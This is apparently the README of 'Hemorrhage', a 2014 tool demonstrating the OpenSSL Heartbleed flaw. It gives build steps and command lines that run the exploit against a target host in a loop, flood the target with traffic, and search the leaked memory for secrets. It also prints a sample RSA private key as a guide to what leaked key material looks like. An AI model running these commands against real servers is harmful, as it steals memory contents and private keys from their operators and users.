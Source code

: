 Hemorrhage
==========

(c) 2014 Mike Shema, [@Codexatron](https://twitter.com/Codexatron)

[A Monstrous Confluence](https://deadliestwebattacks.com/archive/2014-05-10-a-monstrous-confluence)

Demonstrate the OpenSSL ["Heartbleed"](https://www.heartbleed.com/) vulnerability.

Refer to LICENSE file for license information.

Motivation
---
Use heartbleed as an excuse to experiment with C++11 and the Boost.ASIO library.

Compilation
---
Prerequisites:

 * Boost installation (http://www.boost.org/).
 * OpenSSL 1.0.1f [http://www.openssl.org/).

Edit the Makefile's BOOSTDIR and OPENSSLDIR path to match your environment.

````
$ make
````

If you wish to try to Boost.ASIO version, then use the asio target.

````
$ make asio
````

Only tested on Mac OS X. Should compile on any Unix-based system without issue. Windows will need some OpenSSL wrangling.

When using boost::asio::ssl, OpenSSL cannot be compiled with ````-DOPENSSL_NO_DEPRECATED````. Otherwise, you'll receive an undefined symbols error for ````_CRYPTO_set_id_callback```` and ````_ERR_remove_state```` at link time.

Collect Data
---
Note that you may have to adjust your LD_LIBRARY_PATH for hemorrhage to find the OpenSSL and Boost.System libraries at run-time.
On Mac OS X you'll need to set the DYLD_LIBRARY_PATH.

````
$ ./hemorrhage web.site | tee err
$ DYLD_LIBRARY_PATH=/opt/boost/libc++/lib/ ./hemorrhage web.site | tee err
````

Use an alternate port.

````
$ ./hemorrhage web.site 8443 | tee err
````

Loop against the target.

````
$ while [ 1 ]; do ./hemorrhage web.site | tee -a err; done
````

Review Output
---
Hemorrhage saves incoming heartbeat traffic to a hemoglo.bin file. This file will always be appended to. Delete it if you wish to start afresh.

````
$ strings hemoglo.bin | sort -u | tee words.txt
$ xxd hemoglo.bin
````


Generate Traffic
---
Maybe you'll find more interesting content if the target is handling more connections.

````
$ while [ 1 ]; do curl --insecure https://web.site/ ; done
````

Example Certificate
---
If you're searching for private key information, you'll be looking for items like prime1 and prime2.

````
$ openssl rsa -text -modulus -in example.key
Private-Key: (512 bit)
modulus:
    00:a3:95:f7:4e:c8:b3:45:c4:4e:85:0b:a6:7d:25:
    ad:f9:d4:c0:f5:52:96:4f:5f:07:86:5a:f4:98:ce:
    6b:7d:5f:e4:1c:22:8c:7b:af:45:bf:78:8d:92:1a:
    20:70:23:3b:03:f6:16:5d:56:49:b7:ce:aa:db:19:
    ca:6b:b5:53:e7
publicExponent: 65537 (0x10001)
privateExponent:
    00:96:ab:27:af:4e:b7:9f:c8:a1:31:75:7b:90:c4:
    c5:aa:d7:c4:29:b0:39:75:3d:67:a6:dd:db:6f:6a:
    a0:22:46:58:57:f4:24:0a:ff:40:72:0c:aa:31:78:
    b5:6e:cb:8c:ab:cb:1c:77:42:74:d8:d4:88:ae:06:
    58:b4:62:2c:31
prime1:
    00:d7:29:1f:1b:09:47:15:0d:21:17:44:9d:09:6a:
    fa:4b:c5:13:c0:39:5e:fb:7d:e7:9c:35:f8:c9:b5:
    1a:30:7d
prime2:
    00:c2:a2:c5:2a:cb:4f:bd:0f:f6:86:e9:01:52:ab:
    35:ff:d4:bf:70:96:16:ed:35:d5:71:1c:ae:3a:45:
    27:47:33
exponent1:
    00:cc:a2:9c:a5:ff:25:ee:fc:a4:bb:57:93:af:d0:
    62:2b:cc:4d:a3:a6:2d:13:2e:45:29:4a:1f:cb:e0:
    05:ff:95
exponent2:
    77:2b:2d:c9:3b:de:40:85:cb:8d:62:90:5a:cb:55:
    2e:a4:55:ea:5b:1b:02:75:d9:8f:7d:dd:f6:f3:6c:
    4f:1d
coefficient:
    50:c7:4a:c3:68:53:5d:f2:2e:39:62:8c:37:43:ba:
    79:a0:64:e2:20:8c:02:22:bf:bb:dc:f5:20:d3:b8:
    7b:d5
Modulus=A395F74EC8B345C44E850BA67D25ADF9D4C0F552964F5F07865AF498CE6B7D5FE41C228C7BAF45BF788D921A2070233B03F6165D5649B7CEAADB19CA6BB553E7
writing RSA key
-----BEGIN RSA PRIVATE KEY-----
MIIBOwIBAAJBAKOV907Is0XEToULpn0lrfnUwPVSlk9fB4Za9JjOa31f5BwijHuv
Rb94jZIaIHAjOwP2Fl1WSbfOqtsZymu1U+cCAwEAAQJBAJarJ69Ot5/IoTF1e5DE
xarXxCmwOXU9Z6bd229qoCJGWFf0JAr/QHIMqjF4tW7LjKvLHHdCdNjUiK4GWLRi
LDECIQDXKR8bCUcVDSEXRJ0JavpLxRPAOV77feecNfjJtRowfQIhAMKixSrLT70P
9obpAVKrNf/Uv3CWFu011XEcrjpFJ0czAiEAzKKcpf8l7vyku1eTr9BiK8xNo6Yt
Ey5FKUofy+AF/5UCIHcrLck73kCFy41ikFrLVS6kVepbGwJ12Y993fbzbE8dAiBQ
x0rDaFNd8i45Yow3Q7p5oGTiIIwCIr+73PUg07h71Q==
-----END RSA PRIVATE KEY-----
````

Other Resources
---
[cloudflare_challenge notes by epixoip](https://gist.github.com/epixoip/10570627).

[heartleech](https://github.com/robertdavidgraham/heartleech) tool.

[Metasploit](http://www.metasploit.com) examples for [server](http://www.rapid7.com/db/modules/auxiliary/scanner/ssl/openssl_heartbleed) and [client](http://www.rapid7.com/db/modules/auxiliary/server/openssl_heartbeat_client_memory). These include additional background references.

[Nmap's](http://nmap.org/download.html) [ssl-heartbleed.nse](https://svn.nmap.org/nmap/scripts/ssl-heartbleed.nse) script.

[SSL Pulse](https://www.trustworthyinternet.org/ssl-pulse/) regarding public SSL/TLS web sites.

